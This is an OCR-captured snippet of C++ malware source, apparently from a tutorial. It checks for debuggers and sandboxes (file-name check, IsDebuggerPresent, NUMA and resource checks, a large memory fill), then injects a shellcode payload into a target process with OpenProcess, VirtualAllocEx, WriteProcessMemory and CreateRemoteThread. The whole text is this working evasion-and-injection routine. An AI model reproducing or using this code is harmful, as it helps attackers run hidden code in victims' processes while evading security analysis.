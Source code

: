 ```cpp
  DWORD pid; // process ID
  pid = atoi(argv[1]);

  // what is my name???
  if (strstr(argv[0], "hack2.exe") == NULL) {
    printf("What's my name? WTF?? :(\n");
    return -2;
  }

  // "ask" the OS if any debugger is present
  if (IsDebuggerPresent()) {
    printf("attached debugger detected :(\n");
    return -2;
  }

  // check NUMA
  if (checkNUMA()) {
    printf("NUMA memory allocate failed :( \n");
    return -2;
  }

  // check resources
  if (checkResources() == false) {
    printf("possibly launched in sandbox :(\n");
    return -2;
  }

  // allocate and fill 100 MB of memory
  char *mem = NULL;
  mem = (char *) malloc(100000000);

  if (mem != NULL) {
    memset(mem, 00, 100000000);
    free(mem);

    // parse process ID
    ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 
    DWORD(pid));
    printf("PID: %i", pid);

    // allocate memory buffer for remote process
    rb = VirtualAllocEx(ph, NULL, sizeof(my_payload), 
    (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

    // "copy" data between processes
    WriteProcessMemory(ph, rb, my_payload, 
    sizeof(my_payload), NULL);

    // our process start new thread
    rt = CreateRemoteThread(ph, NULL, 0, 
    (LPTHREAD_START_ROUTINE)rb, 
    NULL, 0, NULL);
    CloseHandle(ph);
    return 0;
  }
}
```
